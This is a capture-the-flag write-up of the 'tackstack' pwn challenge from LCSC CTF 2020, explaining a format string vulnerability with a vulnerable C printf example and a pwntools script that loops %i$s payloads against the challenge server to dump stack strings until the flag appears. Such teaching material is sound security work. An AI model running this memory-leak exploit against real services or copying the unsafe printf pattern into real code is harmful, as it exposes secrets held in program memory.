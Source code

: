 ```yaml
---
layout: writeup
title:  "tackstack"
date:   2020-04-04 17:10:05 +0200
event: "LCSC CTF 2020"
categories: [writeup]
image: img/chall.png
ctf_categories: [pwn, format string]
author: "punshLineLama"
---
```

# tackstack

## TL;DR
 Exploit format string vuln, by dumping all strings from memory with the `%i$s`, for i in range(1,100).

## Description
The challenge was in the binary exploitation category, gave 100 points and had the following description:
```
Have you ever played Jenga? Tack Stack is like that game, but with tacks!

Connect with:
nc jh2i.com 50038
```

When connection to the server, there is a prompt, asking for data.
```
========================
|       TACKSTACK      |
========================


Welcome to TackStack!
How to play:
  * Stack your tacks!
Ready? Go!

Your tack:
```
When entering data, it was echoed back by the server. The first thing I checked, was if there is a format string vulnerability.

Thus I tested my hypothesis:
```
Your tack: %x%x
------------------------
|                      |
    4030bef273b780
|                      |
------------------------
```
We see that we get some values from the stack.

A format string vulnerability occurs in C, when the program prints a user-controlled buffer without the right formatting. E.g.:

```C

char str1[20];

printf("Gimme data: ");
scanf("%s", str1);

//Correct/safe way:
printf("%s\n", str1);

//False/vulnerable way:
printf(str1);

```

When there are format string parameters in the first argument of `printf` it pops arguments from the stack and displays them.


## Exploiting the Service

We can use this to dump all the strings from the program memory, starting from the stack by using the %s format string.

To print the i^th string on the stack, we can use the following format string: `%i$s`.
Now we just need to loop for n in [1..100] to and grep the flag.
Thus a little python script which does exactly this.


```python
from pwn import *

ret = ""
for i in range(1,100):
  #start remote connection
	p = remote("jh2i.com", 50038)
  #read from connection
	ret = p.recvuntil("tack: ")
  #send format string
	p.sendline("%"+str(i)+"$s")
  #check if crashed, and read the output
	try:
		ret = p.recvuntil("tack: ")
	except:
		print("crashed")
  # If we got the flag, print it and break the loop
	if("LLS{" in ret):
		print(ret)
		break
  #else close connection and restart the loop
	p.close()
```

Just wait a few iterations, and there we go, we get our flag:

```
Your tack:
------------------------
|                      |
    FLAG=LLS{tack_stack?_more_like_stack_attack}
|                      |
------------------------
```
